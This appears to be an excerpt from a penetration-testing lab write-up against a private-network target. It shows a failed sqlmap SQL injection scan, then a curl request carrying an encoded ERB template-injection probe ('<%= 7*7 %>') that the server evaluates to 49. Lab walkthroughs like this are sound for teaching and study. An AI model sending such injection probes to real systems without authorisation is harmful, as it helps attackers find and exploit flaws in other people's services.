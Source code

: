 ```

[07:40:47] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('_gadgets_session=xfyjXkZIZZ5...%2Bw%3D%3D'). Do you want to use those [Y/n] 

[07:40:47] [INFO] testing if the target URL content is stable
[07:40:47] [WARNING] target URL content is not stable (i.e. content differs). sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] 

[07:40:49] [WARNING] heuristic (basic) test shows that GET parameter 'query' might not be injectable
[07:40:49] [INFO] testing for SQL injection on GET parameter 'query'
[07:40:49] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[07:40:50] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[07:40:50] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[07:40:51] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[07:40:51] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[07:40:51] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[07:40:52] [INFO] testing 'Generic inline queries'
[07:40:52] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[07:40:52] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[07:40:52] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[07:40:52] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[07:40:52] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[07:40:52] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[07:40:52] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] 

[07:41:14] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[07:41:14] [WARNING] GET parameter 'query' does not seem to be injectable
[07:41:14] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. ← If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

[*] ending @ 07:41:14 /2024-10-06/
```
</❌ Failed Step.>

`python3 -c "import urllib.parse; print(urllib.parse.quote('<%= 7*7 %>'))"`:
```
%3C%25%3D%207%2A7%20%25%3E ←
```

`curl -k "https://192.168.56.133:3000/search?query=TEST&message=%3C%25%3D%207%2A7%20%25%3E" | grep "49"`:
```
[...]

    <div class="message">49</div> ←
```
